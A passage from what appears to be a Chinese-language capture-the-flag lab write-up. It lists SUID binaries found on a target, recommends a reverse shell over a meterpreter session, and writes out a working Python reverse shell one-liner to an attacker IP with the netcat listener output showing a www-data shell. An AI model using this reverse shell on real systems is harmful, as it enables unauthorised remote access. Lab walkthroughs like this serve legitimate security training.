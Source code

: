 ```
/bin/ping
/bin/su
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
```

注意：这里建议获取一个reverse shell。而不是直接在meterpreter shell中执行，因为后者执行/bin/bash有些问题。

[Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.72.222",4433));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```
┌──(root㉿kali)-[~]
└─# nc -vnlp 4433
listening on [any] 4433 ...
connect to [10.18.72.222] from (UNKNOWN) [10.10.144.150] 33938
$ whoami
whoami
www-data
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
